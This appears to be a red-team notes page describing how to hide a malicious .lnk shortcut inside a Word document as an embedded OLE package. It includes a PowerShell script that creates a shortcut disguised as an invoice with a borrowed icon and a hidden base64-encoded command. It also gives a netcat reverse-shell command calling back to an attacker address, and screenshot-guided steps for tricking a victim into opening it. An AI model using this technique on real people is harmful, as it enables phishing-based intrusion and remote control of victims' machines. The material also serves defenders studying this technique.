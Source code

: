 # ⭕ embedded OLE + LNK objects

{% embed url="https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence" %}

{% embed url="https://www.securify.nl/en/blog/click-me-if-you-can-office-social-engineering-with-embedded-objects" %}

attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them

Creating an .LNK file that will trigger the payload once executed:

```vba
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```

Powershell payload will trigger a rudimentary NC reverse shell:

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

Once the above powershell script is executed, an `.LNK` shortcut is created

![](<../../.gitbook/assets/image (124).png>)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](<../../.gitbook/assets/image (285).png>)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](<../../.gitbook/assets/image (88).png>)

![](<../../.gitbook/assets/image (138).png>)

Point the package to the .lnk file containing the payload:

![](<../../.gitbook/assets/image (129).png>)

Final result:

![](<../../.gitbook/assets/image (40).png>)

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](<../../.gitbook/assets/image (2) (1) (1).png>)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](<../../.gitbook/assets/image (192).png>)
